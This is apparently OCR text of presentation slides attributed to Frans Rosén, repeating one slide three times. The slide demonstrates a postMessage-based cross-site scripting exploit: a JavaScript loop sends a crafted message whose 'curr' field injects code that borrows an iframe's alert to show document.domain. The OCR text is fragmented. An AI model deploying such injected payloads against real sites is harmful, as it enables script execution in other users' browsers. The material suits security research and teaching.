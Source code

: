  setInterval( function ()	{	 if (b)	b.postMessage('{"sitelist":"www.example.com/ global","siteurl":"www.example.com/uk","curr":"curr=&osl=\'-(function() {document.body.appendChild(iframe=document.createElement(\'iframe\'));window .alert=iframe.contentWindow[\'alert\'];document.body.removeChild(iframe);win dow.alert(document.domain)})()-\'"}','*')	 				},	 10 ); 

 Author name her 

##### Loaded JS 

 Frans Rosén @fransrosen 

**link.com.example.com** 

 Loads mpel.js... 

 	Loading...							 

---

 setInterval( function ()	{	 if (b)	b.postMessage('{"sitelist":"www.example.com/ global","siteurl":"www.example.com/uk","curr":"curr=&osl=\'-(function() {document.body.appendChild(iframe=document.createElement(\'iframe\'));window .alert=iframe.contentWindow[\'alert\'];document.body.removeChild(iframe);win dow.alert(document.domain)})()-\'"}','*')	 				},	 10 ); 

 Author name her 

##### Loaded JS 

 Frans Rosén @fransrosen 

**link.com.example.com** 

 Välkommen! 

 Willkommen! 

 Welcome!				 

 localeservice.com 

 Loads mpel.js... 

---

 setInterval( function ()	{	 if (b)	b.postMessage('{"sitelist":"www.example.com/ global","siteurl":"www.example.com/uk","curr":"curr=&osl=\'-(function() {document.body.appendChild(iframe=document.createElement(\'iframe\'));window .alert=iframe.contentWindow[\'alert\'];document.body.removeChild(iframe);win dow.alert(document.domain)})()-\'"}','*')	 				},	 10 ); 

 Author name her 

##### We won! 

 Frans Rosén @fransrosen 

**link.com.example.com** 

 Välkommen! 

 Willkommen! 
